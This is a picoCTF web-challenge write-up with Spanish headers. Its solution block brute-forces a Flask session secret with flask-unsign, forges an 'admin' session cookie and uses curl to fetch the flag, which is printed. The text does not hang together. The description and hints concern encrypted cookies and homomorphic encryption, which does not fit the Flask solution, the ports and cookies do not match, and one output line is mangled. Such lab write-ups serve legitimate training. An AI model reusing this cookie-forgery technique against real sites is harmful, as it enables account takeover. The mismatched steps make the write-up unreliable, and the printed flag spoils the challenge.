 ## Descripción 
I forgot Cookies can Be modified Client-side, so now I decided to encrypt them! [http://mercury.picoctf.net:15614/](http://mercury.picoctf.net:15614/)
## Hints
1. [https://en.wikipedia.org/wiki/Homomorphic_encryption](https://en.wikipedia.org/wiki/Homomorphic_encryption)
2. The search endpoint is only helpful for telling you if you are admin or not, you won't be able to guess the flag name
## Solución
```
 flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aNggiQ.ogihacOQOnqOvbxYxqOli0XpM6o" --wordlist cookies.txt 
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'

flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "peanut butter"
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aNghfw.laCS90soyQTr6ADLh4OL3VvlAF4

                                                             
└─$ curl -s http://mercury.picoctf.net:35697/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aNgi8A.BbTVV1hRm6P_SaVRq7dkneozQWo" | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_22fe0842}</code></p>

```
## Notas

## Referencias
[https://en.wikipedia.org/wiki/Homomorphic_encryption](https://en.wikipedia.org/wiki/Homomorphic_encryption)